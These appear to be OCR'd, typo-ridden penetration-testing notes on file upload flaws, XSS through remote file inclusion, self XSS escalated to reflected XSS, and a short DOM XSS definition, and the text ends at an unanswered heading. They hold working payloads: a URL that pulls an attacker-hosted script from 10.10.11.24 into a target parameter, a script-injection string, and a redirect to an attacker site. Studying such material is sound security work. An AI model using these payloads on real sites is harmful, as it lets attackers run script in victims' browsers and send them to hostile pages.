 In Order to an application is vulnerable for file upload functionality. the following conditionals must be true

1.The File type is not checked against the whitelist for allowed formats

2.The file name and path of the uploaded file, he is known to the attacker guessable. The folder which the file is placed allow the execution for server side scripts

tip: Check the any image is available in application. check the source code to see where the file is stored

let's double check copy the file to url to access the image.

if the file upload successful use infect element to see the file where it is stored

11.Xss through RFI Vulnerability.

if the application has rfi vulnerability try to prepare the xxs script in attacker side such as

<http://10.10.11.24/xss.html> ==\> xss.html contain is xss script

try to execute the rfi vulnerability victim will get the popup massage example

<http://abc.com/cmn/js/ajax.php?url=http://10.10.11.24/xss.html>

12.self xss to reflected

Execution flow for self xss payload:

In Brupsuite response copy the vulnerable html response code into one file and open with the Firefox browser. it will give the popup message.

instead of alert one set the payload like this docuement.location.href="http://bing.com" so it will redirect the message to attacker website.

for example:

/@213dewf it is reflecting is browser add the xss script like /@213dewf"\>\<script\>alert(1)\</script\> if it will give the popup means it is self xss.

POC: registration,feedback,host header,/about/xss,referer,search filed common where it is reflecting.

**What is Dom based XSS? \#**

1.  Dom-based XSS, also known as Document Object Model-based Cross-Site Scripting or "type-0 XSS," is a web security vulnerability.
    1.  It occurs when malicious code is injected into client-side JavaScript, manipulating the HTML structure and content of a web page.
    2.  This manipulation happens only within the browser, without affecting the server-side response, making it a client-side vulnerability.
    3.  Attackers exploit this vulnerability to execute their scripts within the victim's browser environment.

**Common parameters:** DOM XSS vulnerabilities are mainly attributed to situations where user-controllable sources pass data to sinks, such as eval() , document. write , or inner HTML. \| the most popular, from this perspective, are the document.url, document.location and document. Referrer objects.

**What is DOM parsing?**
